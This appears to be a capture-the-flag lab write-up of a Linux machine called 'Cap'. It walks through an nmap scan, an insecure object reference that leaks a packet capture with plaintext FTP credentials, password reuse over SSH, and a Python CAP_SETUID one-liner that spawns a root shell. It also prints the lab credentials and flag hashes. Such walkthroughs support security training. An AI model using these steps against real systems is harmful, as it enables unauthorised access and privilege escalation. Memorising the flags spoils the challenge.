



# Cap

Difficulty: Easy
OS: Linux
Category: Offensive
Date: 2026-03-03
Added: 2026-10-01


I followed an exposed packet capture to reused FTP and SSH credentials, then used a Python file capability to get root access.

## Enumeration
I scanned for open ports and identifying the exposed services.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
FTP, SSH, and HTTP were open. I started with the website; a version number alone wasn't enough to call FTP vulnerable.

## User
The dashboard identified the current user as Nathan. I clicked **Security Snapshot (5 Seconds PCAP + Analysis)**, which opened `/data/1`. The numeric identifier suggested an object reference worth testing, so I changed it to `/data/0` to check whether I could access an earlier capture.

`/data/0` opened without any trouble. I downloaded the `.pcap` and checked the traffic. There was an FTP login with the username and password in plaintext.

I recovered `nathan:Buck3tH4TF0RM3!` and verified that the credentials worked on the FTP service.

I then tested the same credentials over SSH. Password reuse gave me a shell as `nathan`, where I retrieved `user.txt`.
```
fa722701b549e6b659ca1d44674e30f7
```

## Root
For privilege escalation, I checked file capabilities. LinPEAS reports these under **Files with capabilities**; I could also enumerate them directly with `getcap`:
```bash
getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
The recursive search showed that `/usr/bin/python3.8` had `CAP_SETUID`. This capability lets that process change its user ID, including to UID 0. I launched that specific Python binary and ran the following code to start a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
The new shell ran as root, allowing me to read the root flag.
```txt
f7cda82e55f2d438ed1acd456d32f3a2
```
